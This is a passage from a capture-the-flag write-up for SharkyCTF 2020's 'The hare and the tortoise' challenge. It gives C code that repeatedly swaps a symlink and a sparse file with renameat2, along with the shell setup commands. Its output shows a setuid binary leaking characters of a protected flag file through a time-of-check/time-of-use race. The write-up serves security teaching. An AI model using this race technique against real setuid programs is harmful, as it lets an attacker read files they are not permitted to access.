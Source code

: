 The solution I took is based on [a video][5] from [liveoverflow][6], which I
had watched earlier this year.

I compiled the following code:

```c
#define _GNU_SOURCE
#define _POSIX_C_SOURCE 200809L
#define _ATFILE_SOURCE

#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <linux/fs.h>
#include <sys/syscall.h>

int main() {
    while (1) {
        syscall(SYS_renameat2, AT_FDCWD, "flag", AT_FDCWD, "sparse", RENAME_EXCHANGE);
    }
}
```

and then created a large file "sparse", and a symlink to the flag inside of my
working directory in `/tmp`.

```sh
ln -s ~/flag.txt flag
truncate -s 10G sparse
```

A [sparse file][7] is a file that doesn't take space on disk (think of it like
compression (I feel like some people will hate me for this definition)).

The `racing.c` program will swap the `flag` symlink and `sparse` file thousands
of time a seconds and hopefully, when the file descriptor is opened for the
"hare", the sparse file will be the one having the name `flag` and the when the
tortoise opens the file, the symlink to `~/flag.txt`.

In one terminal, I ran the racing program that switches the files:

```sh
gcc racing.c
./a.out
```

And in another, I ran the suid binary on `flag`.

```
$ ~/the_hare_and_the_tortoise flag
The tortoise, progressing slowly... : ""
The hare says : "Do you ever get anywhere?"
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
$ ~/the_hare_and_the_tortoise flag
The tortoise, progressing slowly... : ""
The hare says : "Do you ever get anywhere?"
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
The tortoise, progressing slowly... : ""
$ ~/the_hare_and_the_tortoise flag
The tortoise, progressing slowly... : "s"
```

[0]: https://ctftime.org/team/118762
[1]: https://ctfd.sharkyctf.xyz
[2]: https://ctfd.sharkyctf.xyz/naumachia/config/22
[3]: https://github.com/seanjpagano
[4]: https://github.com/LibWTF/ctf_writeups/blob/master/SharkyCTF-2020/The_hare_and_the_tortoise.md
[5]: https://www.youtube.com/watch?v=5g137gsB9Wk
[6]: https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w
[7]: https://en.wikipedia.org/wiki/Sparse_file